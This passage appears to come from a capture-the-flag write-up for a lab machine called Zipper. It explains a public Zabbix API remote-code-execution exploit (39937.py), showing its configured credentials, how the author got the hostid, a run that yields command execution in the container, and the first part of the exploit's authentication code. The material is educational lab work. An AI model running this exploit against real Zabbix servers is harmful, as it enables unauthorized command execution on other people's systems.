     login = 'zapper'               ### Zabbix login
    password = 'zapper'     ### Zabbix password
    hostid = '10106'        ### Zabbix hostid



The path, username, and password I already had at this point. I showed I
could use the API to get the hostid, but I could also find that in the
GUI as guest. In the Monitoring/Latest Data view, once filtered to see
the hosts, if I click on Zipper and run a script, I can see the hostid
in the url of the window the pops up:

![](/img/zipper-gui-hostid.gif)

Now I can run the shell, and get code execution in the Zabbix container.



    root@kali# python 39937.py 
    [zabbix_cmd]>>:  hostname
    91cae047f48a



### Shell Details

So what is the shell doing? I'll walk it section by section.

The first block of code after defining the variables looks like this:



    ### auth
    payload = {
            "jsonrpc" : "2.0",
        "method" : "user.login",
        "params": {
            'user': ""+login+"",
            'password': ""+password+"",
        },
            "auth" : None,
        "id" : 0,
    }
    headers = {
        'content-type': 'application/json',
    }

    auth  = requests.post(url, data=json.dumps(payload), headers=(headers))
    auth = auth.json()



This is just issuing the user.logon API call, just as I did above, to
login. It's grabbing the resulting json and storing it as `auth`.

Next, there's a `while True:` loop. I'll look at the loop in three
parts. First, this block:

